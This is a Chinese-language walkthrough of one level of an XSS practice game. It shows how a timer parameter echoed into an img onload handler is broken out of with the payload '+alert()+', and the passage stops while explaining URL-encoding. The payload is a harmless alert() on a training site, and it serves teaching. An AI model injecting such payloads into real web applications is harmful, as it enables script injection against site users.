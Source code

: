 我们观察发现：
```html
<img id="loading" src="/static/img/loading.gif" style="width: 50%" onload="startTimer('3');" />
```
和
```html
<div id="message">Your timer will execute in 3 seconds.</div>
```
两处回显了我们的数据。而前半部 javascript 代码也有一个3：
```js
function startTimer(seconds) {
    seconds = parseInt(seconds) || 3;
    setTimeout(function() {
        window.confirm("Time is up!");
        window.loading.style.display = 'none';
        window.message.innerHTML = '<a href="?">Go back</a> to the timer setup page';
    }, seconds * 1000);
}
```
提交其他参数后发现，跟我们提交的参数无关，无视之。  
那么前两处中，我们先看第一处（看到这个字就有点怪怪的感觉……）：
```html
<img id="loading" src="/static/img/loading.gif" style="width: 50%" onload="startTimer('3');" />
```
这里可以搞：
```js
onload = "startTimer('3');"
```
怎么搞呢，你需要知道一个知识点：
```js
<script>
    var a = 'a' + alert(); // 或者 '-' 也可以，重点在于让 alert() 参与运算

    // 当 alert() 参与运算的时候
    // js 会尝试让 alert() 先执行
    // 然后取其执行后的返回值再参与前面的运算
    // 我就问你任性不。「任性~」『←_← 真尼玛能给自己加戏』
</script>
```
我们再结合 img 标签的 onload 事件：
```js
onload = "startTime('?')"; // 这里需要把上面的知识点利用上 也就是把 alert() 以合适的体位插入 ? 的地方
/*
    别往下瞅了，下面就是答案了，自己不寻思寻思啊
    强行占一行
    再来一行
    嗯，上下注释符号还能占两行，差不多了。
*/
// 先尝试直接插入alert()
onload = "startTimer('alert()')"; // startTimer('alert()'); …… 这不直接当字符串传过去了吗…… 不行
// 看看上面的知识点……
// 插入 a'+alert()+'a
onload = "startTimer('a'+alert()+'a')"; // 这应该差不多了…… 可是好像a没啥用啊，不传不也还是字符串吗，只不过是空字符串
// 插入 '+alert()+'
onload = "startTimer(''+alert()+'')";

```
嗯，想好了体位，接下来要后退几步，对着 URL 酝酿一下~
```
http://www.xssgame.com/f/WrfpuKFX8GNr/?timer='+alert()+'
```
提交一下……
「我曹不对吧」
「这也没过关啊，日，讲啥呢一天天。」
「你哔哔这么长时间，念经呢这是？」
别着急，'+' 号在URL里有独特的含义，直接写进去就当成URL约定的含义去解读了。
我们这边转义一下这个'+'字符,在 chrome 控制台中输入这个函数并按回车，会返回给你一个转义后的字符串：